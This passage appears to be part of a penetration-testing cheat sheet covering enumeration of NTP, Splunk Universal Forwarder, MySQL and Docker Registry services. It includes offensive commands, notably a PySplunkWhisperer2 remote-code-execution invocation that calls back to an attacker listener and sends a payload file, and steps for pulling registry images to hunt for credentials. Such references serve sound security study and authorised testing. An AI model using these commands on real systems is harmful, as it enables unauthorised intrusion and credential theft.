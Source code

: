 ```bash
ntpdc -n -c monlist IP    # Get information from the NTP server
nmap -sU -p 123 --script=ntp-* IP
```

Some things to know about NTP:

- **monlist** is a debugging command that allows to retrieve information from the monitoring facility about traffic associated with the NTP service.

### Splunk Universal Forwarder Agent (8090)

The universal forwarder collects data from a data source or another forwarder and sends it to a forwarder or a Splunk deployment. With a universal forwarder, you can send data to Splunk Enterprise, Splunk Light, or Splunk Cloud.

Try to visit <https://IP:8090>

If you have an admin account you can perform remote code execution with [PySplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2)

```bash
PySplunkWhisperer2_remote.py --host IP --port 8090 --lhost OUR_IP --lport OUR_PORT --username USER --password PASS --payload-file FILE
```

### MySQL

If we have user, we can try to connect on the database,

```bash
mysql -h IP -u USER -p -P 3306 DATABASE
```

*Don't forget to specify the **-p** in order to say that you want to connect with a password*

### Docker Registry

The Docker Registry is a stateless, highly scalable server side application that stores and lets you distribute Docker images.
The Registry is open-source, under the permissive Apache license.

A Docker registry is organized into Docker repositories, where a repository holds all the versions of a specific image.

Here are some fingerprint techniques:

- If you access `/` nothing is returned in the response
- If you access `/v2/` then {} is returned
- If you access `/v2/_catalog` you may obtain:

```bash
curl -s http://IP:5000/v2/_catalog
```

It may be possible to connect to it without authentication

Enumeration using docker

```bash
# If we know the images available on the server (/v2/_catalog), we can pull them
docker pull 10.10.10.10:5000/IMAGE
# Show the history of an image (we may find credentials)
docker history 10.10.10.10:5000/ubuntu
```
